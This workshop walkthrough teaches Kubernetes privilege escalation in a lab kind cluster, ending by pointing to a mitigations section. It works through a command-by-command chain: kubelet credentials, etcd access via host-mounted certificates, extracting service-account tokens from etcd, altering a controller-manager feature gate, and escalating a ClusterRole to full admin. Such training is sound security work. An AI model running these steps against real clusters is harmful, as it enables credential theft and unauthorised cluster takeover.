



# Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through

<!-- TOC -->
* [Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through](#hands-on-hacking-k8s-workshop--section-2--exploit-walk-through)
  * [Part 7: Owning the cluster](#part-7--owning-the-cluster)
    * [Checkpoint](#checkpoint)
      * [What we already knew:](#what-we-already-knew-)
      * [New info:](#new-info-)
      * [Timeline of Doom](#timeline-of-doom)
  * [Next Step:](#next-step-)
<!-- TOC -->

## Part 7: Owning the cluster

Now we have the host filesystem on the node, we have access to a lot more information. Specifically interesting to our
goals is the kubelet's token which has **much** wider permissions than the ServiceAccount tokens we've been using up to
this point.

1. In the shell from our previous step—still root and with the host filesystem mounted—we'll grab the kubelet's context
   and use it look into the `kube-system` namespace and list the `nodes` in this cluster.

   Commands you'll need to run:
   * `export KUBECONFIG=/etc/kubernetes/kubelet.conf` - This is contains the kubelet's token
   * `kubectl get pods -n kube-system` - Lists the pods in the control-plane `kube-system` Namespace
   * `kubectl get nodes` - Lists the names and roles of the nodes that make up the cluster
   
   ```shell
   root@nonroot-priv:/# export KUBECONFIG=/etc/kubernetes/kubelet.conf
   
   root@nonroot-priv:/# kubectl get pods -n kube-system
   NAME                                         READY   STATUS    RESTARTS   AGE
   calico-kube-controllers-5c64b68895-9pqnb     1/1     Running   0          8h
   calico-node-b9dmb                            1/1     Running   0          8h
   calico-node-bmn4j                            1/1     Running   0          8h
   coredns-64897985d-7jkhh                      1/1     Running   0          8h
   coredns-64897985d-ktkdg                      1/1     Running   0          8h
   etcd-kind-control-plane                      1/1     Running   0          8h
   kube-apiserver-kind-control-plane            1/1     Running   0          8h
   kube-controller-manager-kind-control-plane   1/1     Running   0          8h
   kube-proxy-qsdx4                             1/1     Running   0          8h
   kube-proxy-zw8s2                             1/1     Running   0          8h
   kube-scheduler-kind-control-plane            1/1     Running   0          8h
   
   root@nonroot-priv:/# kubectl get nodes
   NAME                 STATUS   ROLES                  AGE   VERSION
   kind-control-plane   Ready    control-plane,master   8h    v1.23.6
   kind-worker          Ready    <none>                 8h    v1.23.6
   ```

2. Let's see if we can run a pod directly with this token. We try a simple `busybox` shell:
   `kubectl run -i --tty busybox --image=busybox --restart=Never -- sh`
   ```shell
   root@nonroot-priv:/# kubectl run -i --tty busybox --image=busybox --restart=Never -- sh
   Error from server (Forbidden): pods "busybox" is forbidden: pod does not have "kubernetes.io/config.mirror" annotation, node "kind-worker" can only create mirror pods
   ```
   This command fails because the kubelet token still doesn't have all the permissions needed to start via the API server.
   The mirror pods line is interesting though, since it would allow us to launch any pod we want directly in `kube-system`
   by putting a YAML file into `/etc/kubernetes/manifests` on the node. This would then give us many attack vectors against
   the other control plane pods in the `kube-system` namespace. We'll leave that alone for now though.

3. Given that we can see pods in the `kube-system` namespace, our next target are to find credentials that can get us admin level
   access to the control plane.  Let's try listing secrets in the `kube-system` namespace: `kubectl get secrets -n kube-system`:
   ```shell
   root@nonroot-priv:~# kubectl get secrets -n kube-system
   Error from server (Forbidden): secrets is forbidden: User "system:node:kind-worker" cannot list resource "secrets" in API group "" in the namespace "kube-system": No Object name found
   ```
   That didn't work but there might be another accack vector to get at those secrets: *etcd*.

4. Because we've escaped the Pod Security Policy, and we now know which nodes we have, we're going to launch a pod to the node
   hosting etcd, and in the Pod configuration we're going to mount the host filesystem to give us the credentials to connect to etcd. 

   From the pod list above, we can see that the etcd server appears to be running as `etcd-kind-control-plane`.  Etcd
   is the state persistence for the cluster, we need to get into that and exfiltrate an admin token if possible.

   First, we need to figure out which node the etcd server is running on as well and where it's credentials are stored.
   This will be available in its pod description: `kubectl describe pod etcd-kind-control-plane -n kube-system`
   There's a lot of valuable information in the response so we'll look at it in pieces:
   ```shell
   root@nonroot-priv:/# kubectl describe pod etcd-kind-control-plane -n kube-system
   Name:                 etcd-kind-control-plane
   Namespace:            kube-system
   Priority:             2000001000
   Priority Class Name:  system-node-critical
   Node:                 kind-control-plane/172.19.0.3
   ```
   From this we see that it is running on the `kind-control-plane` node. In our kind cluster, we only have 2 nodes, so
   we probably could have guessed that In a real-world scenario this might not be so obvious as etcd often is deployed
   on its own host(s).

   ```shell
   ...
       Command:
         etcd
         --cert-file=/etc/kubernetes/pki/etcd/server.crt
         --listen-client-urls=https://127.0.0.1:2379,https://172.19.0.3:2379
   ...
   Volumes:
     etcd-certs:
       Type:          HostPath (bare host directory volume)
       Path:          /etc/kubernetes/pki/etcd
       HostPathType:  DirectoryOrCreate
   ...
   ```
   I've pared a lot of this out but from the command arguments and `etcd-certs` volume path we can determine what to feed
   into the `etcdctl` client to connect to the server.


4. Now open the [demo_yamls/etcdclient.yaml](../demo_yamls/etcdclient.yaml) file. Note the specified node, and the
   credential mounting and make sure it matches with the values we saw above. Specifically, check:
   * `etcd-certs` Volume `path` matches
   * `ETCDCTL_ENDPOINT` value matches one of the ones above
   * `nodeName` is correct
   ```yaml
   ...
       - name: ETCDCTL_ENDPOINTS
         value: "https://127.0.0.1:2379"
   ...
     nodeName: kind-control-plane
     volumes:
     - hostPath:
         path: /etc/kubernetes/pki/etcd
         type: DirectoryOrCreate
       name: etcd-certs
   ```


5. Exit the exec'ed pod and apply the etcdclient pod: `kubectl apply -f demo_yamls/etcdclient.yaml`
   ```shell
   $ kubectl apply -f demo_yamls/etcdclient.yaml
   pod/etcdclient created
   ```


6. Now we can run etcdctl by exec'ing into that pod to test our connection to the etcd server:
   `kubectl exec etcdclient -- /usr/local/bin/etcdctl member list`
   ```shell
   $ kubectl exec etcdclient -- /usr/local/bin/etcdctl member list
   c63fc327fd7550b9, started, kind-control-plane, https://172.19.0.3:2380, https://172.19.0.3:2379
   ```
   That's a valid response so our credentials and settings are working, now let's go after something more interesting.


7. Etcd contains a lot of interesting information about the cluster, not least of which is secrets. List them out with
   `kubectl exec etcdclient -- /usr/local/bin/etcdctl get '' --keys-only --from-key | grep secrets`

   In Kubernetes 1.23 or older, you would see a long list like this:
   ```shell
   $ kubectl exec etcdclient -- /usr/local/bin/etcdctl get '' --keys-only --from-key | grep secrets
   /registry/secrets/default/default-token-rwr67
   /registry/secrets/default/webadmin-token-r9h69
   /registry/secrets/ingress-nginx/default-token-rmt2h
   /registry/secrets/ingress-nginx/ingress-nginx-admission
   /registry/secrets/ingress-nginx/ingress-nginx-admission-token-s5rql
   /registry/secrets/ingress-nginx/ingress-nginx-token-68htr
   /registry/secrets/kube-node-lease/default-token-dfc9c
   /registry/secrets/kube-public/default-token-m8zph
   /registry/secrets/kube-system/attachdetach-controller-token-wx7k9
   /registry/secrets/kube-system/bootstrap-signer-token-zfksz
   /registry/secrets/kube-system/bootstrap-token-abcdef
   /registry/secrets/kube-system/calico-kube-controllers-token-cjntm
   /registry/secrets/kube-system/calico-node-token-rfps8
   /registry/secrets/kube-system/certificate-controller-token-krhs2
   /registry/secrets/kube-system/clusterrole-aggregation-controller-token-fjkn5
   ...
   ```

   ... and the last row above (`clusterrole-aggregation-controller-token-*`) is a role which rights we can use. Unfortunately,
   (for us), this demo is running a newer version and in 1.24 a fearture gate was turned on by default that stops creating Secret objects for
   service account tokens so the list we are seeing is more like this:
   ```shell
   $ kubectl exec etcdclient -- /usr/local/bin/etcdctl get '' --keys-only --from-key | grep secrets
   /registry/secrets/ingress-nginx/ingress-nginx-admission
   /registry/secrets/kube-system/bootstrap-token-abcdef
   ```
   
8. You will note that I said that is a feature gate, and the nice thing (for us) about gates is they can be toggled. As you saw above, the
   `etcdclient` pod was able to be started on the `kind-control-plane` node.  We did this in order to mount the credentials needed which
   exist on the filesystem of that host. Conveniently, that host also contains static pod configurations for the Kubernetes control plane processes so we simply need to modify that gate in those files.
   First, lets redeploy our `nonroot_priv` pod onto that node by editing the `demo_yamls/nonroot_priv.yaml` file to add `nodeName: kind-control-plan` to it's spec.
   Open the file in your editor and add that field somewhere under the `spec:` section
   ```yaml
   apiVersion: v1
   kind: Pod
   metadata:
   name: nonroot-priv
   spec:
      nodeName: kind-control-plane
   ...
   ```
   Next, we will delete the old pod and redeploy this one, checking to make sure it got provisioned on the right node:
   ```shell
   $ kubectl delete -f demo_yamls/nonroot_priv.yaml
   pod "nonroot-priv" deleted
   $ kubectl apply -f demo_yamls/nonroot_priv.yaml
   pod/nonroot-priv created
   $ kubectl get pod -o wide
   NAME                        READY   STATUS    RESTARTS   AGE     IP               NODE                 NOMINATED NODE   READINESS GATES
   etcdclient                  1/1     Running   0          37m     172.19.0.3       kind-control-plane   <none>           <none>
   nonroot-priv                1/1     Running   0          4m36s   10.244.82.7      kind-control-plane   <none>           <none>
   webadmin-79d5c46849-tm5ht   1/1     Running   0          48m     10.244.162.133   kind-worker          <none>           <none>
   ```

9. With our pod running on the `kind-control-plane` node, exec into it, become root and edit the `/chroot/etc/
   ```shell
   $ kubectl exec -it nonroot-priv -- bash
   To run a command as administrator (user "root"), use "sudo <command>".
   See "man sudo_root" for details.

   snyky@nonroot-priv:/$ sudo su -
   root@nonroot-priv:~# vim /chroot/etc/kubernetes/manifests/kube-
   kube-apiserver.yaml           kube-controller-manager.yaml  kube-scheduler.yaml
   root@nonroot-priv:~# vim /chroot/etc/kubernetes/manifests/kube-controller-manager.yaml
   ```
   In that file, in the `spec.containers.command` list, add `- --feature-gates=LegacyServiceAccountTokenNoAutoGeneration=false` and make sure it's indented correctly.
   ```yaml
   apiVersion: v1
   kind: Pod
   metadata:
   creationTimestamp: null
   labels:
      component: kube-controller-manager
      tier: control-plane
   name: kube-controller-manager
   namespace: kube-system
   spec:
   containers:
   - command:
      - kube-controller-manager
      - --feature-gates=LegacyServiceAccountTokenNoAutoGeneration=false
      - --allocate-node-cidrs=true
      - --authentication-kubeconfig=/etc/kubernetes/controller-manager.conf
   ...
   ```
   Save the file, exit the `nonroot-priv` pod exec and re-run the `etcdctl get` command from step 7. You may not see a difference for a minute or so, but eventually a long list of secrets should appear, incliuding our target: `/registry/secrets/kube-system/clusterrole-aggregation-controller-token-...`

10. Now let's get the contents of the secret name containing `clusterrole-aggregation-controller-token`.
   `kubectl exec etcdclient -- /usr/local/bin/etcdctl get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-fjkn5`
   _(replace the last part of that string as it appears for your output)_

   A lot of data is going to come back from that query but the last very long line which starts with `token�` is what we
   want. Copy everything after that field name (don't grab the unprintable character on the end of `token�`) all of the
   way through, **but not including** the `#kubernetes.io/service-account-token` part the end.
   
   Here's an example screenshot with the highlighted portion you want to copy:
   

11. Edit your demokubeconfig file one more time, commenting out the prior `token:` adding a new one with the string we copied.
   ```yaml
   ...
   users:
   - name: snyk
     user:
       token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJpc3MiOiJrdWJl...
   #    token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJhdWQiOlsiaHR0...
   #    token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJhdWQiOlsiaHR0...
   ```

12. Let's see what that token's permissions include: `kubectl auth can-i --list`
   ```shell
   $ kubectl auth can-i --list
   Resources                                       Non-Resource URLs                     Resource Names   Verbs
   selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
   selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
   clusterroles.rbac.authorization.k8s.io          []                                    []               [escalate get list patch update watch]
   ...
   ```
   This is not _quite_ full admin access, but the fact that we can `escalate` ClusterRoles means we are just a step away.


13. Now, let's edit the `clusterrole-aggregation-controller` service account's clusterrole rights: `kubectl edit clusterrole system:controller:clusterrole-aggregation-controller`
    Change the roles section to match the following:
   ```yaml
   rules:
   - apiGroups:
     - '*'
     resources:
     - '*'
     verbs:
     - '*'
   ```
   Save end exit the edit session and you should see the following:
   ```shell
   clusterrole.rbac.authorization.k8s.io/system:controller:clusterrole-aggregation-controller edited
   ```

14. Now re-check the permissions: `kubectl auth can-i --list`
   ```shell
   $ kubectl auth can-i --list
   Resources                                       Non-Resource URLs                     Resource Names   Verbs
   *.*                                             []                                    []               [*]
   ...
   ```
   You are now a cluster admin, enjoy your new powers.


   
### Checkpoint
Let's take a moment to collect our notes and track our progress.

#### What we already knew:
* An application with an RCE vulnerability is available to us on port 80
* The application is running in a container on a Kubernetes cluster
* The application is behind a service listening on port 5000
* The Kubernetes api-server internal IP address 
* The IP address of the container/pod the application is running in
* The ServiceAccount and Pod configurations in the `secure` Namespace is using the default `automountServiceAccountToken` setting of `true`
* Using a found ServiceAccount token, we were able to connect to the cluster's api-server
* The api-server returned Endpoint information exposing its external IP _(although our workshop Kind cluster obscures this in practice)_
* The account for the token gathered has limited access in the `default` Namespace
* The account is from a Namespace titled `secure` where it has broad access.
* The application container is somewhat hardened by running as a non-root user and its image does not include `sudo`
* The application container is not running with a `readOnlyRootFilesystem:true` so it's mutable
* There are PSP configurations in place in the `secure` Namespace that restrict root users and privileged mode containers/pods
* The `secure` Namespace PSP is **not** configured with `allowPrivilegeEscalation:false` so SUID binaries are effective
* Another application is listening at port 5000 and it is **not** in the `secure` Namespace. (We know
  it is not in the same Namespace because we would have seen it via `kubectl get`.)  We don't know what
  Namespace it is in yet.
* Apparently NetworkPolicy is either not deployed or is far too loose to allow that scan to find listeners
  outside the Namespace.
* The new IP address is another copy of the vulnerable application
* We've found another ServiceAccount token from this copy of the application 
* This copy of the application is running in the `default` Namespace
* The ServiceAccount and Pod configurations in the `default` Namespace is using the default `automountServiceAccountToken` setting of `true`
* RBAC is wide open for this ServiceAccount in the `default` Namespace
* PSPs are lax/non-existant in the `default` Namespace, allowing us to deploy privileged containers that we can easily escape.

#### New info:
* Getting root access to a node exposes the kubelet token
* The kubelet token as visibility into `kube-system` resources, including the etcd pod
* The `default` namespace service account token has rights to deploy a pod onto the `kind-control-plane` node
* Using privileged mode, the etcd pki volume is mountable from the `kind-control-plane` node
* Using an etcdctl command, the token for the `clusterrole-aggregation-controller` service account is accessable
  * Note: If the cluster is running Kubernetes 1.24 or newer, the `LegacyServiceAccountTokenNoAutoGeneration` feature gate has to be disabled on the controller manager to get access to the `clusterrole-aggregation-controller` secret token
* The `clusterrole-aggregation-controller` token has `escalate` rights on ClusterRoles
* Escalating its own ClusterRole to wildcard resources gives admin rights to itself.



#### Timeline of Doom


## Next Step:
Now that we've completely owned this cluster, in the [next step](03-mitigations.md) we start looking at ways to mitigate the differenct attacks
we made.
